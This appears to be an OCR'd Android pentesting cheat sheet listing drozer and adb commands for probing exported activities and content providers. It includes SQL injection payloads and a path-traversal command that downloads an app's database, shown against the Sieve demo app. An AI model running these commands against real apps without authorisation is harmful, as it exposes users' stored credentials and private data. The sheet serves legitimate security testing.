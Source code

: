             [INFO]
                -) lists exported activities, contentprovider, broadcast receivers & services (=makes accessible to other apps)
            
            [THINGS TO REPORT]
                !) "is debuggable" output shows up (allows attaching a debugger to the process, using adb, and step through the code) 

    ---------
    ACTIVITES
    ---------
            [COMMANDS]
                DROZER
                    o) run app.activity.info -a com.x.x.x (display exported acitivities)
                    o) run app.activity.start --component com.x.x.x com.x.x.x.ActivityName (start activity)
                ADB
                    o) adb shell am start -n com.x.x.x/ActivityName
            
            [THINGS TO REPORT]
                !) Bypassed so called "protected" activites (i.e. creds needed) and access sensitive information
                !) Accessed "hidden" activities (if Admin-UI or Debug-UI was implemented)
    
    ----------------
    CONTENT PROVIDER
    ----------------
            [COMMANDS]
                DROZER
                    o) run app.provider.info -a com.x.x.x
                    o) run scanner.provider.finduris -a com.x.x.x (guesses paths & determines accessible content)
                    o) run app.provider.query content://&lt;URI&gt; --vertical (use uris from above or guess yourself)
                        o) in addition: .insert / .update / .delete (google for proper statements)
                    o) run scanner.provider.injection -a com.x.x.x (Test content providers for SQL injection vulnerabilities)
                    o) run scanner.provider.sqltables -a com.x.x.x (Find tables accessible through SQL injection vulnerabilities)
                    ----
                    SQLi
                    ----
                        o) run app.provider.query content://com.x.x.x.ProviderName/path/ --prjection "* FROM SQLITE_MASTER WHERE type='table';--" (list all db tables)
                        o) run app.provider.query content://com.x.x.x.ProviderName/path/ --projection "'" unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords
                        o) run app.provider.query content://com.x.x.x.ProviderName/path/ --selection "'" unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
                        o) EXAMPLE:
                            o) run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--" (retreive data from otherwise protected tables)
                    -------------
                    FILESYSTEM-CP
                    -------------
                        o) run app.provider.download content://com.x.x.x.ProviderName/../../../../../../../../data/data/com.x.x.x/database.db /home/user/database.db (download db)
                        o) run scanner.provider.traversal -a com.x.x.x (find content provider that are susceptible to directory traversal)
                        o) run app.provider.read content://com.x.x.x.ProviderName/path/to/file
                        o) EXAMPLE:
                            o) run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts (/etc/hosts is world-readable -&gt; no biggy)
                            o) run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db /home/user/database.db
                ADB
                    o) adb shell content query --uri content:/com.x.x.x.ProviderName/file_or_path
            
